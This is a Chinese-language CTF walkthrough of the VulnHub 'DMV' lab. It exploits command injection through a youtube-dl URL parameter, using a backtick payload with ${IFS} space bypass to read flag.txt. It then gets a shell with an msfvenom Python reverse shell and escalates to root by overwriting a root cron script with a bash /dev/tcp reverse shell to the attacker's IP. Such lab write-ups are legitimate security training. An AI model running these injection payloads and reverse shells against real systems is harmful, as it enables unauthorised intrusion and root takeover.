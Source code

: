 ## DMV: Walkthrough

### 主机识别

`nmap -sn 192.168.1.1/24`

### 网络拓扑

| 计算机 | IP              |
| ------ | --------------- |
| Kali   | `192.168.1.105` |
| DMV    | `192.168.1.110` |

### 扫描端口和版本信息

`nmap -A 192.168.1.110`

![1](../src/vulnhub/dmv/1.png)

### 访问Web并确定web应用

访问 *80* 端口有个输入框，此外查看网页源码发现一个 JS 脚本。大意就是将用户输入的内容作为值与字符串（*`https://www.youtube.com/watch?v=`*）结合传递给 *yt_url* 参数，并根据返回结果做出相应输出，因此这里可能存在命令注入漏洞

![2](../src/vulnhub/dmv/2.png)

![3](../src/vulnhub/dmv/3.png)

在输出框里输入 *123*，并转到 BP 上进行操作

![4](../src/vulnhub/dmv/4.png)

根据返回的报错信息可以确定服务器端运行 **youtube-dl** 这一下载 YouTube 上视频的命令行程序，通过查看支持的参数，发现 `--exec` 参数可以执行命令

![5](../src/vulnhub/dmv/5.png)

结果经过多次尝试发现并不能正常执行，同时也确定服务器端存在字符过滤。要想知道哪些字符被过滤，哪些字符没有过滤，那么就需要进行 Fuzzing 

> 使用 [SecLists](https://github.com/danielmiessler/SecLists) 字典库中 Fuzzing 部分的 *special-chars.txt* 字典进行操作

![6](../src/vulnhub/dmv/6.png)

根据返回结果的不同，可以发现返回结果中带 *sh: 1: cannot open* 字符串的都是没有被过滤的字符，因此对执行结果进行过滤后确定以下字符没有被过滤

```
(
)
&
`
|
'
"
<
;
```

![7](../src/vulnhub/dmv/7.png)

其中反引号在 Linux 系统中可以执行命令，比如 

```
echo `ls`
```

此外分号起到分隔命令的作用，多次尝试后如下传参，命令可以正常执行

![8](../src/vulnhub/dmv/8.png)

但是当命令中存在空格时也会被过滤

![9](../src/vulnhub/dmv/9.png)

采用 Linux 中[空格绕过](https://www.freebuf.com/articles/web/137923.html)方法，将空格替换为`${IFS}`可以绕过

![10](../src/vulnhub/dmv/10.png)

### 寻找 Flag 文件

![11](../src/vulnhub/dmv/11.png)

在 `/var/www/html/admin` 目录下存在 *flag.txt* 文件，因此如下传参就可以读到文件内容

```
yt_url=%3c`cat${IFS}/var/www/html/admin/flag.txt`
```

接下来的步骤就是读 */root* 目录下的 flag 文件了。为了操作方便，进行 getshell

> 本机（Kali）开启 **8088** 端口（`python3 -m http.server 8088`），并且在目录下使用 *msfvenom* 生成反向 shell 脚本
>
> `msfvenom -p python/shell_reverse_tcp LHOST=192.168.1.105 LPORT=8866 -f raw > recvshell.py`

![12](../src/vulnhub/dmv/12.png)

在本机监听 **8866** 端口，就可以 getshell

![13](../src/vulnhub/dmv/13.png)

得到 *itsmeadmin* 账号密码和一段 shell 脚本 （*clean.sh*)

```
rm - rf downloads
```

看来在此之前将 *downloads* 目录给删除了，这时想到 CTF 中遇到脚本的常见套路就是定时任务 *crontab* 了，因此我们将此连接转到 *bash*

![14](../src/vulnhub/dmv/14.png)

本机监听 **4466** 端口，并在 GitHub 上下载 [pspy](https://github.com/DominicBreuker/pspy) 程序，该程序的功能就是旨在无需 root 权限即可监听进程。因此我们可以查看是否存在 *cron* 进程。这里我们根据虚拟机的信息下载 64 位的程序

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
./pspy64
```

![15](../src/vulnhub/dmv/15.png)

可以看到 root 用户使用 *cron* 每一分钟自动执行 *clean.sh* 脚本。接下来的工作很明显，只要我们把脚本写到 clean.sh 文件就会被 root 用户自动执行，因此执行该命令

`echo "bash -c 'bash -i >& /dev/tcp/192.168.1.105/4455 0>&1'" > /var/www/html/tmp/clean.sh`

本机监听 **4455** 端口，再过一分钟就可以拿到 root 权限

![16](../src/vulnhub/dmv/16.png)

